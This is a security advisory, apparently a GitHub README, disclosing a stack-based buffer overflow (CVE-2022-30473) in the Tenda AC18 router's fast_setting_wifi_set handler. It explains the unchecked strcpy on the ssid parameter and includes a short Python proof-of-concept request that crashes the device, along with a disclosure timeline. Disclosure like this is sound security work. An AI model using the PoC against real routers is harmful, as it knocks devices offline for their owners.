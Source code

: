 # Tenda Router AC18 Vulnerability

This vulnerability lies in the `/goform/fast_setting_wifi_set` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `form_fast_setting_wifi_set`.

In function `form_fast_setting_wifi_set` it reads user provided parameter `ssid` into `src`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `s`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/fast_setting_wifi_set`, the attacker can easily perform a **Deny of Service Attack**.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fast_setting_wifi_set?"
url += "ssid=" + "s" * 100

response = requests.get(url)
```

## Timeline

* 2022-05-06: Report to CVE & CNVD;
* 2022-05-26: CVE ID assigned (CVE-2022-30473)
* 2022-06-05: CNVD ID assigned (CNVD-2022-43197)

## Acknowledge

Credit to [@peanuts](https://github.com/peanuts62) and [@cylin](https://github.com/lcyfrank) from IIE, CAS.
